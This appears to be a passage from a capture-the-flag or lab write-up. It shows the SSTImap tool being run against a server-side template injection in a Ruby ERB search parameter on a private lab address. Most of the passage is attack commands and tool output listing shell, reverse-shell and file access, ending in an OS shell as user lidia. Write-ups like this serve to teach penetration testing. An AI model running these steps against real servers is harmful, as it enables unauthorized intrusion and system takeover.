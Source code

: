 
Now that we know the server is vulnerable to SSTI, we can try to automate the exploit and get a shell.
To do that i'll use [SSTImap](https://github.com/vladko312/SSTImap):
```bash
python3 sstimap.py -u 'https://192.168.1.60:3000/search?query=ab&message=*'
```
We got lucky:
```bash
[+] Erb plugin has confirmed injection with tag '*'
[+] SSTImap identified the following injection point:

  Query parameter: message
  Engine: Erb
  Injection: *
  Context: text
  OS: x86_64-linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, ruby code

[+] Rerun SSTImap providing one of the following options:
    --interactive                Run SSTImap in interactive mode to switch between exploitation modes without losing progress.
    --os-shell                   Prompt for an interactive operating system shell.
    --os-cmd                     Execute an operating system command.
    --eval-shell                 Prompt for an interactive shell on the template engine base language.
    --eval-cmd                   Evaluate code in the template engine base language.
    --tpl-shell                  Prompt for an interactive shell on the template engine.
    --tpl-cmd                    Inject code in the template engine.
    --bind-shell PORT            Connect to a shell bind to a target port.
    --reverse-shell HOST PORT    Send a shell back to the attacker's port.
    --upload LOCAL REMOTE        Upload files to the server.
    --download REMOTE LOCAL      Download remote files.
```

# User lidia

I rerun the tool with the `--os-shell option`:
```bash
[+] Erb plugin has confirmed injection with tag '*'
[+] SSTImap identified the following injection point:

  Query parameter: message
  Engine: Erb
  Injection: *
  Context: text
  OS: x86_64-linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, ruby code

[+] Run commands on the operating system.
```
